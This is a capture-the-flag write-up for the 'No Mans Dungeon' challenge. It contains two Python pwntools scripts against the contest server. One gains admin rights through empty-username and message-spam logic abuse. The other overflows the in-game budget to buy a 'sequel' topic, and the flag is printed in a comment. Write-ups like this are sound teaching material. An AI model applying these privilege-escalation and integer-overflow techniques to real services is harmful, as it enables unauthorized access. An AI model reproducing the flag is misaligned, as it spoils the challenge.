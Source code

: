 ## No Mans Dungeon (LuciferVM, 400pt)

> Experience the brand new game from Goodbye Games! If you can find it, that is
> 
> Hints I've given:
> In the flag, the curly braces are stored in octal, the rest is hex
> Create a Sequel to No Mans Dungeon
> Look for weird values in the sequel

I solved this challenge alongside my teammates [xero](https://github.com/xerof4ks) and [tomtoump](https://github.com/tomtoump) so credits go to them as well.

First piece of the challenge was to become admin.

**Strategy:**

* Login with empty username.
* Move randomly until we meet a monster.
* Attack and win the monster to level up (this was not always happening).
* Send a message to admin until we receive a response with **empty** username. Noticed that this almost always happens after sending >= 15 consecutive messages to the admin.
* Send the `Elevate` command.
* We are not admin and can execute the `magic` command.

```python
import random
from pwn import *

r = remote("nomansdungeon.tuctf.com", 6666)

def meet_monster():
    directions = [ "N", "S", "E", "W" ]
    while True:
        resp = r.recv(10000)
        print resp
        if "ENTER COMBAT" in resp:
            break
        r.sendline(random.choice(directions))

def elevate():
    for i in range(20):
        r.sendline("m")
        resp = r.recv(10000)
        print resp
        r.sendline("no other players")
        resp = r.recv(10000)
        print resp

    r.sendline("Elevate")

# login with empty username
print r.recv(10000)
r.sendline("")

# move randomly until we meet a monster
meet_monster()

# attack the monster
r.sendline("A")
print r.recv(10000)
r.sendline("y")
r.recv(10000)

# send message to admin
elevate()

r.interactive()
```

After becoming admin and executing the `magic` command (which was part of the admin menu only) we were getting a _segfault_ message and a new binary was generated. It is important to note that in order to access the new binary an **access key** was required. Following the LuciverVM challenges, [xero](https://github.com/xerof4ks) discovered that we could use the keygen I wrote for the [Grammar Lesson](https://github.com/rkmylo/ctf-write-ups/blob/master/2017-tuctf/lucifervm/grammar-lesson-150/README.md) challenge!

This was the second part of the challenge. The new binary allowed us to create and release games. Besides all other characterics, a game should be assigned a **topic** prior to its release and the point of this challenge was to assign it the **sequel** topic in order to create a sequel of the "No Man's Dungeon Game".

Initially we had only a few topics that we could assign to our games and obviously the sequel was not one of those. There was a menu that allowed us to buy more topics but the prices of the topics was rapidly increasing as we were buying more topics. After buying all available topics we were allowed to create our own topics, so we could create the sequel topic and then buy it. The thing is that we could not afford buying all these topics without bankrupting!

As game creator we were assigned a starting budget that we could increase by releasing games. After a lot of experimentation we discovered that the algorithm that decided whether we make money or not was really weird and we could not make any sense out of it.

The question is, how do we make money to buy the sequel topic without bankrupting?

Playing with the binary, we found a lot of integers overflowing and that looked pretty suspicious. How about buying even more topics without releasing any game, until our budget decreases so much that it overflows?

The following script automates the process:

```python
import random
import string
from pwn import *
from time import sleep

recovery_key = "itstimetoplay"
validation_key = "(66,66-66,66&66,66-66,66)"

r = remote("nomansdungeon.tuctf.com", 6666)

print r.sendlineafter("continue: ", "")
print r.sendlineafter("> ", recovery_key)
print r.sendlineafter("continue.\n", "pwn")
r.sendline(validation_key)
print r.sendlineafter("> ", "greunion")

def create_sequel_game():
    print r.sendlineafter("> ", "1") # Create New Game
    print r.sendlineafter("> ", "5") # Set Game Topic to Sequel
    print r.sendlineafter("> ", "48")
    print r.sendlineafter("> ", "1") # 1) No Man's Dungeon
    r.sendline("pwn")  # not important, just needed to continue
    print r.sendlineafter("> ", "6") # Work on the Game to receive flag :D

def create_sequel_topic():
    for i in range(44): # buy all existing topics
        print r.sendlineafter("> ", "3") # View Status and Topics
        print r.sendlineafter("(Y/N) ", "Y")
        print r.sendlineafter("> ", "1")
    # create the sequel topic
    print r.sendlineafter("> ", "3") # View Status and Topics
    print r.sendlineafter("(Y/N) ", "Y")
    print r.sendlineafter("(Y/N) ", "Y")
    print r.sendlineafter("> ", "Sequel")
    # buy the sequel topic
    print r.sendlineafter("> ", "3") # View Status and Topics
    print r.sendlineafter("(Y/N) ", "Y")
    print r.sendlineafter("> ", "1")
    # overflow our money
    for i in range(12):
        # create random topic
        print r.sendlineafter("> ", "3") # View Status and Topics
        print r.sendlineafter("(Y/N) ", "Y")
        print r.sendlineafter("(Y/N) ", "Y")
        t = ''.join(random.choice(string.ascii_lowercase) for _ in range(10))
        print r.sendlineafter("> ", t)
        # buy random topic
        print r.sendlineafter("> ", "3") # View Status and Topics
        print r.sendlineafter("(Y/N) ", "Y")
        print r.sendlineafter("> ", "1")

# create and buy topics until we overflow our budget!
create_sequel_topic()
# now create the sequel game to receive the flag
create_sequel_game()

r.interactive()

# Flag: TUCTF{G00DhaxSET5}

```

While going to work on a game which was assigned the sequel topic gave us the flag.

![](flag.png)
